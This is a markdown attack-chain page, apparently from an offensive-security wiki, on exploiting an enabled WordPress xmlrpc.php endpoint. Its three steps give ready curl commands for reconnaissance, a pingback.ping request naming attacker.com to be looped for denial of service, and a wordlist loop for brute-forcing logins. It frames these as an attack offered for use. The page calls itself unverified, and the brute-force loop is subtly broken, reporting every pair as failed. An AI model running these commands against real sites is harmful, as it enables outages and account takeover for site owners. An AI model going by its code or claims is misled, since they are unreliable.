

# WordPress xmlrpc.php Enabled Enabling DoS via Pingbacks and Brute Force Login Attacks

Multi-stage attack chain demonstrating exploitation of an enabled xmlrpc.php file in WordPress installations, which exposes the site to resource exhaustion through pingback amplification for denial-of-service and unauthorized access via brute force login attempts over XML-RPC.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses standard HTTP clients like curl)

### Target Environment

- WordPress installation on PHP-based web server
- Accessible /xmlrpc.php endpoint
- Network access to the target site (ports 80/443 open)

### Initial Access Requirements

- No credentials required for reconnaissance or DoS
- Public network access to the WordPress site
- For brute force, optional wordlists for passwords/usernames

## Detailed Attack Procedures

### Step 1: Reconnaissance - Verify xmlrpc.php Accessibility
procedure: [[procedures/Verify-WordPress-xmlrpc.php-Accessibility]]

**Objective**: Confirm if the xmlrpc.php endpoint is enabled and accessible, indicating potential for exploitation.

**Instructions**: Use [[commands/curl-check-xmlrpc]] to send a basic request to the endpoint:

```bash
curl -s -X POST http://target.com/xmlrpc.php -d '<methodCall><methodName>system.listMethods</methodName><params></params></methodCall>'
```

**Expected Output**: XML response listing methods if enabled, or 404/403 if disabled.

**Success Indicators**:
- HTTP 200 response with XML content
- Methods like "wp.getUsersBlogs" present in output

### Step 2: Execution - DoS via Pingback Amplification
procedure: [[procedures/Exploit-xmlrpc.php-for-DoS-via-Pingbacks]]

**Objective**: Leverage XML-RPC pingbacks to amplify traffic and cause resource exhaustion on the target server.

**Instructions**: Craft a pingback request using [[commands/curl-pingback-dos]] to flood the server with amplified requests:

```bash
curl -s -X POST http://target.com/xmlrpc.php -d '<?xml version="1.0"?><methodCall><methodName>pingback.ping</methodName><params><param><value><string>http://attacker.com/malicious</string></value></param><param><value><string>http://target.com/vulnerable-page</string></value></param></params></methodCall>'
```
Repeat in a loop or script to amplify DoS.

**Expected Output**: Server responds with pingback success, but repeated calls exhaust resources.

**Success Indicators**:
- Target site becomes unresponsive
- High CPU/memory usage observed on server

### Step 3: Privilege Escalation - Brute Force Logins via XML-RPC
procedure: [[procedures/Brute-Force-WordPress-Logins-via-XML-RPC]]

**Objective**: Attempt unauthorized access by brute forcing login credentials over the XML-RPC interface.

**Instructions**: Use [[commands/curl-xmlrpc-bruteforce]] with a wordlist to test credentials:

```bash
for user in $(cat users.txt); do for pass in $(cat passwords.txt); do curl -s -X POST http://target.com/xmlrpc.php -d "<?xml version=\"1.0\"?><methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value><string>$user</string></value></param><param><value><string>$pass</string></value></param></params></methodCall>" | grep -q 'Incorrect'; echo "$user:$pass failed"; done; done
```

**Expected Output**: Successful login returns blog details; failures return fault codes.

**Success Indicators**:
- Valid credentials found (e.g., "faultCode" absent)
- Access to user blogs or admin functions

## Attack Chain Summary

### Key Achievements

1. Confirmed exposure of xmlrpc.php for targeted exploitation
2. Induced denial-of-service through pingback traffic amplification
3. Gained unauthorized access via brute force on XML-RPC logins

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Active Scanning]] Active Scanning
- [[Network Denial of Service]] Network Denial of Service
- [[Brute Force]] Brute Force
- [[Exploit Public-Facing Application]] Exploit Public-Facing Application

### MITRE ATT&CK Tactics

- [[Reconnaissance]] Reconnaissance
- [[Impact]] Impact
- [[Initial Access]] Initial Access

---
*Last updated: 2023-10-01T00:00:00Z*
